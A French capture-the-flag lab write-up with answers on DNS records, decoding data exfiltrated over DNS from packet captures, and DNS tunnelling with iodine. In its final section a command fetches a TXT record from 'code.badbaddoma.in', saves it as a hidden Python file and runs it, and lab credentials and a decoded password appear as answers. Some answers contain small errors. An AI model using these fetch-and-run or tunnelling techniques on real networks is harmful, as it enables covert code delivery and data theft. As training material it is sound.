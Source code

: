 ## Manipulation de DNS

<p align="center">
  <img src="https://blog.nameshield.com/fr/wp-content/uploads/sites/3/2017/04/r%C3%A9solution-dns-2-5.jpg"/>
</p>

Installation de l'environnement de travail pour le TP :

```console
$ git clone https://github.com/kleosdc/dns-exfil-infil

$ sudo pip3 install base58
$ sudo pip3 install pyshark
```

Iodine permet de tunneler les données IPv4 via un serveur DNS. Cela peut être utile dans différentes situations où l'accès Internet est protégé par un pare-feu, mais les requêtes DNS sont autorisées.

Installer iodine :
```console
$ sudo apt install iodine
```

Wireshark est un analyseur de paquets libre et gratuit. 

Installer Wireshark :
```console
$ sudo apt install -y tshark
```

---

#### DNS :

Sous Windows, quelle commande utiliser pour requêter un enregistrement txt pour YouTube.com ?
```console
Réponse : nslookup type=txt youtube.com
```

Sous Linux, quelle commande utiliser pour requêter un enregistrement txt pour YouTube.com ?
```console
Réponse : dig -t txt facebook.com
```

Quel type d'adresses IP stocke le AAAA avec le nom de hôte ?
```console
Réponse : IPv6
```

Le nombre maximum de caracttères pour un enrigrement DNS est de 256. Vrai/Faux ?
```console
Réponse : Faux
```

Quel enregistrement DNS donne le nom du domaine en reverse-lookup ?
```console
Réponse : PTR
```

Quel serait le résultat d'un reverse-lookup pour l'adresse IPv4 suivante : 192.168.203.2 ?
```console
Réponse : 2.203.168.192.in-addr.arpa
```

Quelle est la taille maximale d'un nom DNS ? (en incluant les points!)
```console
253
```

---

#### Exfiltration DNS :

Se connecter à la machine cible en SHH en utilisant les crédentials :
* Utilsateur : user
* Mot de passe : P@ssword01

Parcourir les fichiers dans les dossiers :
```console
~/challenges/exfiltration
~/dns-exfil-infil/
```

```console
cd ~/challenges/exfiltration/orderlist
tshark -r order.pcap -T fields -e dns.qry.name > DNS_names.txt
python3 ~/dns-exfil-infil/packetyGrabber.py
```

Ignorer l'exception levée à la fin du script

Quel est le nom de la première transation ? 
```console
Réponse : Network Equip.
```

Quel est le montant de la transaction Firewall ?
```console
Réponse : 2500
```
Aller dans le dossier :
```console
~/challenges/exfiltration/identity
```

Pour chaque fichier *.pcap
```console
tshark -r cap1.pcap -T fields -e dns.qry.name
python3 ~/dns-exfil-infil/packetyGrabber.py
```

Quel fichier contient des requêtes DNS douteuses ?
```console
Réponse : cap3.pcap
```

Renseigner les texte après avoir décodé les données en utilisant le programe Pyhton packetyGrabber.py qui se trouve dans le dossier `~/dns-exfil-infil/`.
```console
Réponse : administrator:s3cre7P@ssword
```

---

#### Infiltration DNS :

Lire les instructions dans le fichier : 
```console
$ cat ~/challenges/infiltration/TASK
```

```console
$ nslookup -type=txt code.badbaddoma.in | grep Ye | cut -d \* -f2 > .mal.py

$ python3 ~/dns-exfil-infil/packetySimple.py

$ python3 .mal.py
```

Réponse : 4.4.0-186-generic
